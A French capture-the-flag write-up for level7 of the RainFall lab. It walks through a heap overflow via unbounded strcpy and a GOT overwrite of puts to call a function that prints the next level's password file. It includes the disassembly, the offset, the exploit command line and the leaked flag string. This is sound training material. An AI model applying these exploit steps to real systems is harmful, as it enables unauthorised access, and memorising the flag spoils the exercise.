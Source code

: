 #### Etape 1 : Test
On trouve un executable ./level7 qui segfault lorsqu'on lui passe aucun argument mais qui imprime 2 tilde lorsqu'on lui passe 2 arguments ou plus.
```bash
level7@RainFall:~$ ./level7
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 aa
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 aa aa
~~
level7@RainFall:~$ ./level7 aa aa aaa
~~
``` 

#### Etape 2 : Décompilation / Compréhension
On decide de décompiler le binaire pour comprendre son fonctionnement.(voir source.c)


En analysant le code, on peut voir une fonction m inutilisée qui affiche le contenu de la global c qui elle grace au fgets récupère le contenu du fichier .pass du level8.
```c
__stream = fopen("/home/user/level8/.pass","r");
  fgets(c,0x44,__stream);
``` 
En examinant le code on peut voir que le main malloc 2 structure en passant par la variable pvVar2, et copie les av[1] et av[2] dans ces structures.
```c
  pvVar2 = (void *)malloc(8);
  pvVar1 = (void *)malloc(8);
  strcpy((char *)pvVar2,av[1]);
  strcpy((char *)pvVar1,av[2]);
```

Comme vous pouvez le voir, il y a un strcpy qui copie av[1] et av[2] dans des structures de 8 octets. Nous voyons donc une ressemblance au level precedent.

#### Etape 3 : Vulnérabilité

Le strcpy n'étant pas limité par un nombre de caractéré écris, il est sujet au buffer overflow.
Nous voyons que pendant le premier appel de strcpy(), on peux reecrire l'adresse utiliser comme destination pour le deuxième strcpy().


#### Etape 4 : Objectif

Comme dans le level5 nous pouvons réecrire l'adresse de la fonction puts par celle de la fonction m.

#### Etape 5 : Informations manquantes

Il me manque l'offset pour déterminé a combien de caractère ce trouvera la nouvelle adresse a écrire
J'ai généré un buffer grâce à : https://wiremask.eu/tools/buffer-overflow-pattern-generator

Pour le strcpy 1 : 
En éxécutant le programme depuis gdb ou ltrace avec le buffer en question j'obtiens une adresse qui correspond au dernier caractère écrit avant le SegFault. Ce qui me permet de les identifier et obtenir la valeur de 20. pour le premier strcpy.

Nous retrouvons dans la Global Offset Table l'adresse de la fonction puts.
```bash
(gdb) disass main
Dump of assembler code for function main:
   0x08048521 <+0>:	push   %ebp
   0x08048522 <+1>:	mov    %esp,%ebp
=> 0x08048524 <+3>:	and    $0xfffffff0,%esp

[...]

    0x080485e4 <+195>:	movl   $0x8049960,(%esp)
   0x080485eb <+202>:	call   0x80483c0 <fgets@plt>
   0x080485f0 <+207>:	movl   $0x8048703,(%esp)
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>
   0x080485fc <+219>:	mov    $0x0,%eax
   0x08048601 <+224>:	leave
   0x08048602 <+225>:	ret
End of assembler dump.
(gdb) disass 0x8048400
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:	jmp    *0x8049928
   0x08048406 <+6>:	push   $0x28
   0x0804840b <+11>:	jmp    0x80483a0
End of assembler dump.
(gdb)
```
L'adresse de puts est 0x8049928 ou en little endian \x28\x99\x04\x08.
Notre premier exploit prendra la forme suivante :
```bash
$(python -c 'print "a" * 20 + "\x28\x99\x04\x08"')
```

strcpy 2 :
Nous cherchons l'adresse de la fonction m pour  remplacer celle de puts.
avec ghidra ou gdb nous pouvons trouver l'adresse de la fonction m qui est 0x80484f4 ou en little endian \xf4\x84\x04\x08.

Notre second exploit prendra la forme suivante :
```bash
$(python -c 'print "\xf4\x84\x04\x08"')
```



#### Etape 6 : Execution

Il ne reste plus qu'a éxecuter le programme avec les 2 arguments precedents.

```bash
level7@RainFall:~$ ./level7 $(python -c 'print "a" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1722763803
level7@RainFall:~$
```